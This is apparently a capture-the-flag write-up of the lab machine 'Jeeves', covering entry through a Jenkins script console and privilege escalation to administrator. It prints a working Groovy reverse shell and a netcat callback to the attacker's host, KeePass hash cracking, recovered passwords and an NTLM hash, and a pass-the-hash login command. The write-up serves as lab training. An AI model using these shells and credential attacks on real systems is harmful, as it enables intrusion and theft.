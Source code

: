 # Jeeves

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Starting off with an Nmap scan, I found that ports 80,135,445 and 50000 were open.

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>



### Port 50000 Jetty 9.4.z-SNAPSHOT

Visiting the webpage, I was greeted by a Error 404 page.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Next, I searched for subdomains using dirbuster with `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` wordlist. I found the `/askjeeves` subdirectory.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Heading to [http://10.10.10.63:50000/askjeeves/](http://10.10.10.63:50000/askjeeves/), it was a Jenkins management console. Going to `Manage Jenkins` --> Script console, I was able to upload the following groovy reverse shell.

```bash
String host="10.10.14.6";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And I obtained a user shell

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Using the command `whoami /priv`, I was able to view that the `SeImpersonatePrivilege` is enabled which could allow for JuicyPotato attack.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Next, I transferred nc.exe over using SMB.

```bash
copy \\10.10.14.6\share\nc32.exe .
```

Afterwards, I ran the following command to obtain a root reverse shell

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

However, the JuicyPotato attack does not seem to work.

#### Futher Enumeration for Privilege Escalation

I found `CEH.kdbx` at `C:\Users\kohsuke\Documents`

After copying the file to the attacker machine, I used `keepass2john CEH.kdbx > keepass_hash` to extract a crackable hash from the Keepass Password Database.

Running `john keepass_hash --wordlist=/usr/share/wordlists/rockyou.txt` to crack the hash, I obtained the password as `moonshine1`

Using the password to view the password database, I found the following entries.

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the following passwords

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password
```

The first password entry looks like a hash so I tried to using Pass-the-Hash method.

```bash
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.10.10.63 cmd.exe
```

I managed to login as the `administrator`.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Heading to `c:\users\administrator\desktop` for the root flag, I instead found `hm.txt`

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This could indicate that the flag is present as an Alternate Data Stream. Using `dir /r`, I was able to view the streams present in the directory.&#x20;

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Viewing the flag using `more < hm.txt:root.txt`, I obtained the root flag

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
